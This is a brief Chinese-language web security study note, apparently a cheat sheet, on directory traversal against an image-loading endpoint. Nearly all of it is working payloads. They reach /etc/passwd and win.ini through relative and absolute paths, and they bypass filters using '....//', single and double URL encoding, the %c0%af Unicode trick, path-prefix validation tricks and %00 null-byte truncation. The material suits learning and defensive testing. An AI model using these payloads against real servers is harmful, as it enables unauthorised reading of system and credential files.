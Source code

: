# Directory Traversal
## 情境
* 使用 `/image?filename=x.png` 取得圖片。
```
<img src="/image?filename=218.png">
```
* 圖片所在位置。
```
/var/www/images/218.png
```
## 相對路徑
* linux
```
/image?filename=../../../etc/passwd
```
* windows
```
/image?filename=..\..\..\windows\win.ini
```
## 絕對路徑
```
/image?filename=/etc/passwd
```
## 過濾單一路徑
* 如果只是單純過濾掉`../`，可以用以下方法bypass。
```
....//
```
```
....\/
```
## URL 編碼
* URL encoding `../` 的結果。
```
%2e%2e%2f
```
* 2次URL encoding `../` 的結果。
```
%252e%252e%252f
```
## Unicode 編碼
* `%c0%af` 會替換成 `/` ([原理](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work))。
```
..%c0%af
```
## 路徑起始驗證
```
/var/www/images/../../../etc/passwd
```
## 檔名驗證
* 使用 `%00` 來中斷路徑，藉此逃脫檔名驗證。
```
%00
```
---
###### tags: `web security`